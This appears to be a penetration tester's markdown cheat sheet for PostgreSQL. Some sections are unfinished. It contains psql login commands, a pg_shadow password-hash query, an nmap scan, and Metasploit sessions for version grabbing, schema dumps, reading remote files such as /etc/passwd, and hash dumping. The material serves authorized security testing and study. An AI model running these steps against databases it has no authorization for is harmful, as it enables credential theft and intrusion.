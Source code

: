 # PostgreSQL

## 01 - Manual

TODO: Fill this information by referring to the references down below

### 1.1 - Usage

#### 1.1.1 - Authenticate

- **Local**

`$ psql -U <username>`

`$ psql -U <username> -W`

- **Remote**

`$ psql -h <IP> -U <username> -W`

`$ psql postgresql://<username>:<password>@<IP>:<PORT>/<database_name>`

### 1.2 - PostgreSQL Version

### 1.3 - Operating System

### 1.4 - Database

#### 1.4.1 - Retrieve Databases

#### 1.4.2 - Retrieve Tables

#### 1.4.3 - Hashdump

`postgres=# SELECT username, passwd FROM pg_shadow;`

## 02 - Nmap

`$ nmap -p 5432 <IP>`

## 03 - Metasploit

### 3.1 - Banner Grab

```
msf > use auxiliary/scanner/postgres/postgres_version

msf auxiliary(scanner/postgres/postgres_version) > options

Module options (auxiliary/scanner/postgres/postgres_version):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5432             yes       The target port
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  postgres         yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output

msf auxiliary(scanner/postgres/postgres_version) > set database <database_name>

msf auxiliary(scanner/postgres/postgres_version) > run postgres://<username>:<password>@<IP> threads=8
```

### 3.2 - SQL Queries

#### 3.2.1 - Schema

```
msf > use auxiliary/scanner/postgres/postgres_schemadump

msf auxiliary(scanner/postgres/postgres_schemadump) > options

Module options (auxiliary/scanner/postgres/postgres_schemadump):

   Name               Current Setting      Required  Description
   ----               ---------------      --------  -----------
   DATABASE           postgres             yes       The database to authenticate against
   DISPLAY_RESULTS    true                 yes       Display the Results to the Screen
   IGNORED_DATABASES  template1,template0  yes       Comma separated list of databases to ignore during the schema dump
   PASSWORD           postgres             no        The password for the specified username. Leave blank for a random password.
   RHOSTS                                  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              5432                 yes       The target port
   THREADS            1                    yes       The number of concurrent threads (max one per host)
   USERNAME           postgres             yes       The username to authenticate as

msf auxiliary(scanner/postgres/postgres_schemadump) > set database <database>

msf auxiliary(scanner/postgres/postgres_schemadump) > set ignored_databases <database1>,<database2>,<etc>

msf auxiliary(scanner/postgres/postgres_schemadump) > run postgres://<username>:<password>@<IP> threads=8
```

#### 3.2.2 - Read File

```
msf > use auxiliary/admin/postgres/postgres_readfile

msf auxiliary(admin/postgres/postgres_readfile) > options

Module options (auxiliary/admin/postgres/postgres_readfile):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RFILE     /etc/passwd      yes       The remote file
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5432             yes       The target port
   USERNAME  postgres         yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output

msf auxiliary(admin/postgres/postgres_readfile) > set database <database>

msf auxiliary(admin/postgres/postgres_readfile) > set rfile </path/to/file>

msf auxiliary(admin/postgres/postgres_readfile) > run postgres://<username>:<password>@<IP> threads=8
```

#### 3.2.3 - Hashdump

```
msf > use auxiliary/scanner/postgres/postgres_hashdump

msf auxiliary(scanner/postgres/postgres_hashdump) > options

Module options (auxiliary/scanner/postgres/postgres_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  postgres         yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5432             yes       The target port
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  postgres         yes       The username to authenticate as

msf auxiliary(scanner/postgres/postgres_hashdump) > set database <database>

msf auxiliary(scanner/postgres/postgres_hashdump) > run postgres://<username>:<password>@<IP> threads=8
```

---
## References

- [A Penetration Testers guide to PostgreSQL](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)

- [Ultimate guide PostgreSQL Pentesting](https://medium.com/@lordhorcrux_/ultimate-guide-postgresql-pentesting-989055d5551e)

- [Pentration Testing on PostgreSQL 5432](https://www.hackingarticles.in/penetration-testing-on-postgresql-5432/)

- [Pentest Wiki Database Assessment PostgreSQL](https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md)

- [Metasploit Unleashed: Admin Postgre Auxiliary Module](https://www.offsec.com/metasploit-unleashed/admin-postgres-auxiliary-modules/)